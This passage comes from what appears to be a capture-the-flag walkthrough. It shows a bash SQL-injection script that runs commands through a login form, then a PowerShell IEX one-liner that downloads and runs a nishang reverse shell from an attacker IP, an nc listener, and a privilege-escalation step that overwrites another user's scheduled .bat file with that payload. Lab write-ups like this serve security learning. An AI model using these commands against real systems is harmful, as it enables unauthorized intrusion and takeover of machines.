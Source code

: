 ``` bash
  echo "$output" | grep -o "Email=.*;" | cut -d '=' -f 2 | cut -d ';' -f 1 | sed 's/%3D/=/g' | base64 -d; echo                   

  done
  
  Truncate_Table
}


function dropTable
{
  curl -s -X POST "$main_url" \
  --data-urlencode "logintype=2;drop table rce;-- -" \
  --data "username=admin" \
  --data "password=admin" \
  --data "rememberme=ON" \
  --data "B1=LogIn"  > /dev/null
}

Create_Table
while true; do 
  read -p "> " command
  Execute_Command "$command"

done

```
Now that I can execute commands, I need to establish a reverse shell with nishang Invoke-PowershellTCP.ps1

``` bash
# inject this command in the python script
# I have some problem with hows the server interpret the script and the only way to make this works is changing the name of the invoke powershelltcp.ps1 to PS.PS1, I don't now wy, but in this way works
❯ python3 sqlinjection.py
> C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/PS.ps1')

# On my machine
rlwrap nc -nlvp 443
```

Now finally I gain access on the victim machine, Now I need to escalate privileges

Looking around the machine directories I found a .bat file in a direcortio for another user "DEcoder". This file execute in time intervals, and we have privilege to modify it, so in this way I can gain access as the user "Decoder" modifiein the .bat file to execute my reverse shell

``` 
# On my machine create the malicius code
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/PS.PS1')

# upload this file
iwr -uri http://10.10.14.5/malicious -OutFile malicious

# delete the actual content and copy the content of my file into the .bat file
PS C:\Users\Decoder> cmd /c "copy /y NUL clean.bat"
PS C:\Users\Decoder> cmd /c "type C:\Users\sqlserv\malicious >> clean.bat"
```
